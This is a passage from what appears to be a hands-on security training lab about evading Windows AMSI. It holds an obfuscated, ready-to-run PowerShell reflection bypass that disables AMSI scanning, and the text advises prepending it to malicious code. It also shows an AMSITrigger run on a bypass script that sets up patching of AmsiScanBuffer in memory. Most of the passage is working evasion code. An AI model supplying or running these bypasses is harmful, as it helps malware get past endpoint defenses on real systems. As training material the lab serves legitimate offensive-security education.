 ```powershell
$d=$null;$qcgcjblv=[$(('Sys'+'tem').NoRMALizE([CHar](70*66/66)+[CHaR](77+34)+[cHaR]([bYTe]0x72)+[ChAR]([bYtE]0x6d)+[chaR](68*10/10)) -replace [cHAR](92)+[char]([ByTE]0x70)+[cHar]([bYtE]0x7b)+[Char](69+8)+[ChAr]([bYTE]0x6e)+[ChaR]([BYtE]0x7d)).Runtime.InteropServices.Marshal]::AllocHGlobal((9076+7561-7561));$pkgzwpahfwntq="+('lwbj'+'cymh').NORmaliZe([CHar]([byTe]0x46)+[char](111)+[ChAR]([ByTE]0x72)+[chaR](109*73/73)+[ChAR]([ByTE]0x44)) -replace [char]([bytE]0x5c)+[Char](112*106/106)+[char]([bYte]0x7b)+[chAR]([BYtE]0x4d)+[CHAR](110+8-8)+[CHAr]([BytE]0x7d)";[Threading.Thread]::Sleep(1595);[Ref].Assembly.GetType("$(('Sys'+'tem').NoRMALizE([CHar](70*66/66)+[CHaR](77+34)+[cHaR]([bYTe]0x72)+[ChAR]([bYtE]0x6d)+[chaR](68*10/10)) -replace [cHAR](92)+[char]([ByTE]0x70)+[cHar]([bYtE]0x7b)+[Char](69+8)+[ChAr]([bYTE]0x6e)+[ChaR]([BYtE]0x7d)).$(('Mãnâge'+'ment').NOrMalIzE([ChaR](70)+[chAR](111*105/105)+[cHAR](114+29-29)+[chaR]([bYtE]0x6d)+[CHAR](22+46)) -replace [cHar]([BytE]0x5c)+[CHar](112*11/11)+[chAR](123+34-34)+[CHAR](77*13/13)+[cHaR]([bYTe]0x6e)+[cHAR]([bYte]0x7d)).$(('Àutõmâtî'+'ôn').NoRMAlIZe([CHar]([bYTE]0x46)+[Char]([byte]0x6f)+[cHAR]([BYtE]0x72)+[cHAR](109+105-105)+[ChAr](68*28/28)) -replace [chAR]([BytE]0x5c)+[cHAr]([BYTE]0x70)+[CHAR]([BytE]0x7b)+[char]([byte]0x4d)+[CHaR]([BYte]0x6e)+[chaR](125+23-23)).$([CHAR]([ByTe]0x41)+[CHAr]([bYtE]0x6d)+[chaR](115*46/46)+[cHar]([BYTe]0x69)+[cHaR](85)+[CHAr](116)+[chAr](105*44/44)+[cHAr](108*64/64)+[chAr]([BYte]0x73))").GetField("$(('àmsí'+'Sess'+'íón').norMALiZE([CHaR](70*49/49)+[chAr](87+24)+[ChaR]([bytE]0x72)+[chAr](109)+[chAR](68+43-43)) -replace [CHAr](92)+[chAr]([byTe]0x70)+[CHAr]([bYTE]0x7b)+[cHAr](77*71/71)+[CHar]([bYtE]0x6e)+[char](125+49-49))", "NonPublic,Static").SetValue($d, $null);[Ref].Assembly.GetType("$(('Sys'+'tem').NoRMALizE([CHar](70*66/66)+[CHaR](77+34)+[cHaR]([bYTe]0x72)+[ChAR]([bYtE]0x6d)+[chaR](68*10/10)) -replace [cHAR](92)+[char]([ByTE]0x70)+[cHar]([bYtE]0x7b)+[Char](69+8)+[ChAr]([bYTE]0x6e)+[ChaR]([BYtE]0x7d)).$(('Mãnâge'+'ment').NOrMalIzE([ChaR](70)+[chAR](111*105/105)+[cHAR](114+29-29)+[chaR]([bYtE]0x6d)+[CHAR](22+46)) -replace [cHar]([BytE]0x5c)+[CHar](112*11/11)+[chAR](123+34-34)+[CHAR](77*13/13)+[cHaR]([bYTe]0x6e)+[cHAR]([bYte]0x7d)).$(('Àutõmâtî'+'ôn').NoRMAlIZe([CHar]([bYTE]0x46)+[Char]([byte]0x6f)+[cHAR]([BYtE]0x72)+[cHAR](109+105-105)+[ChAr](68*28/28)) -replace [chAR]([BytE]0x5c)+[cHAr]([BYTE]0x70)+[CHAR]([BytE]0x7b)+[char]([byte]0x4d)+[CHaR]([BYte]0x6e)+[chaR](125+23-23)).$([CHAR]([ByTe]0x41)+[CHAr]([bYtE]0x6d)+[chaR](115*46/46)+[cHar]([BYTe]0x69)+[cHaR](85)+[CHAr](116)+[chAr](105*44/44)+[cHAr](108*64/64)+[chAr]([BYte]0x73))").GetField("$([chAR]([byTe]0x61)+[Char](109+52-52)+[cHar](46+69)+[CHar]([byTe]0x69)+[CHAR]([BYTe]0x43)+[Char]([ByTe]0x6f)+[chAR](110)+[chaR](116*47/47)+[cHar](101)+[CHAR]([bYte]0x78)+[CHaR]([ByTE]0x74))", "NonPublic,Static").SetValue($null, [IntPtr]$qcgcjblv);
```

You can attach this bypass at the beginning of your malicious code as with previous bypasses or run it in the same session before executing malicious code.

---

[AMSITrigger](https://github.com/RythmStick/AMSITrigger) allows attackers to automatically identify strings that are flagging signatures to modify and break them. This method of bypassing AMSI is more consistent than others because you are making the file itself clean.

The syntax for using amsitrigger is relatively straightforward; you need to specify the file or URL and what format to scan the file. Below is an example of running amsitrigger.  

AMSITrigger Example

```html
  
C:\Users\Tryhackme\Tools>AmsiTrigger_x64.exe -i "bypass.ps1" -f 3
$MethodDefinition = "

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetModuleHandle(string lpModuleName);

    [DllImport(`"kernel32`")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
";

$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, 'AmsiScanBuffer');
```